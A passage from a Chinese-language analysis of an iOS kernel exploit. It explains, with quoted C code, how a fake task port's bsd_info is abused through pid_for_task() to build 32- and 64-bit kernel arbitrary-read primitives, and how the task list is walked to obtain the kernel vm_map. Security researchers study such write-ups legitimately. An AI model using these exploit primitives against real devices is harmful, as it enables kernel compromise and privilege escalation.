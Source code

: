 于是我们现在拥有了`Fake Task Port`的用户态句柄和内核态地址

## 8. 填充VM_MAP

作者在这里实现了两个内核任意读的原语，我们先来分析一下它背后的取值逻辑

通过`fake_task`获取到`bsd_info`赋值给指针变量`read_addr_ptr`，宏`kr32`里重新设置指针变量`read_addr_ptr`的值，再调用函数`pid_for_task()`，这逻辑完全看不懂什么意思

```c
uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + koffset(KSTRUCT_OFFSET_TASK_BSD_INFO));
    
#define kr32(addr, value)\
    if (SMAP) {\
        read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);\
    }\
    *read_addr_ptr = addr - koffset(KSTRUCT_OFFSET_PROC_PID);\
    if (SMAP) {\
        write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);\
    }\
    value = 0x0;\
    ret = pid_for_task(our_port, (int *)&value);
    
    uint32_t read64_tmp;
#define kr64(addr, value)\
    kr32(addr + 0x4, read64_tmp);\
    kr32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32)
```

顺着获取PID这个思路想一下，通过一个Port内核态地址来获取PID的方式如下

```c
*(*(*(fake_port + offset_kobject) + offset_bsd_info) + offset_p_pid)
```

如果将`bsd_info`的值设置为`addr - offset_p_pid`，`addr`为我们要读取数据的地址，可以看到此时获取的就是我们传入的`addr`指向的数据

```c
*(addr - offset_p_pid + offset_p_pid) => *addr
```

可以得出结论：获取`read_addr_ptr`与宏`kr32()`里设置`read_addr_ptr`的值等价于设置`task->bsd_info`为`addr - offset_p_pid`，当调用函数`pid_for_task()`去获取PID时，就能实现任意读，在此基础上，宏`k64()`实现了`8`字节读取效果

这个内核任意读原语实现的很漂亮！

利用这个任意读原语来实现PID的遍历，先判断本Task的PID是否为`0`，如果不是就获取前一个Task，如果获取到PID为`0`，就获取VM_MAP

```c
uint64_t struct_task;
kr64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT), struct_task);
printf("[!] READING VIA FAKE PORT WORKED? 0x%llx\n", struct_task);

uint64_t kernel_vm_map = 0;
while (struct_task != 0) {
    uint64_t bsd_info;
    kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_BSD_INFO), bsd_info);
    uint32_t pid;
    kr32(bsd_info + koffset(KSTRUCT_OFFSET_PROC_PID), pid);
    if (pid == 0) {
        uint64_t vm_map;
        kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_VM_MAP), vm_map);
        kernel_vm_map = vm_map;
        break;
    }
    kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_PREV), struct_task);
}
```
